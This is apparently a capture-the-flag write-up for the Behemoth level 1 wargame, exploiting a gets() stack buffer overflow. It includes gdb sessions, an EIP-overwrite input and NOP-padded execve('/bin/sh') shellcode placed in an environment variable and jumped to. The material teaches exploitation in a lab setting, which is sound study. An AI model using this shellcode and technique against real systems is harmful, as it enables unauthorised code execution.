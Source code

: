 ```nasm
```

The line `0x0804844e <+3>: sub esp,0x44` allocate **0x44** bytes (or 68 bytes) on the stack and this space is used in the *gets()* call to store our input. Let's overwrite the **EIP**.

```nasm
(gdb) run < <(python -c 'print 71 * "A" + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /behemoth/behemoth1 < <(python -c 'print 71 * "A" + "BBBB"')
Password: Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Okay, now we'll place the following [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) in an environment variable. I also added some *NOP* padding, just to be sure...

```bash
export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 20 * "\x90"')
```

Let's start **GDB** and find the environment variable we just created :

```nasm
behemoth1@behemoth:/behemoth$ gdb -q behemoth1
Reading symbols from behemoth1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *main
Breakpoint 1 at 0x804844b
(gdb) run
Starting program: /behemoth/behemoth1

Breakpoint 1, 0x0804844b in main ()
(gdb) x/s *((char **)environ)
0xffffd826:	"LC_ALL=en_US.UTF-8"

...[removed]...

0xffffde4b:	"OLDPWD=/home/behemoth1"
(gdb)
0xffffde62:	"SHELLCODE=", '\220' <repeats 20 times>, "\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀", '\220' <repeats 20 times>
(gdb) run < <(python -c 'print 71 * "\x90" +  "\x62\xde\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /behemoth/behemoth1 < <(python -c 'print 71 * "\x90" +  "\x62\xde\xff\xff"')

Breakpoint 1, 0x0804844b in main ()
(gdb) continue
Continuing.
Password: Authentication failure.
Sorry.
process 17815 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Inferior 1 (process 17815) exited normally]
(gdb)
```

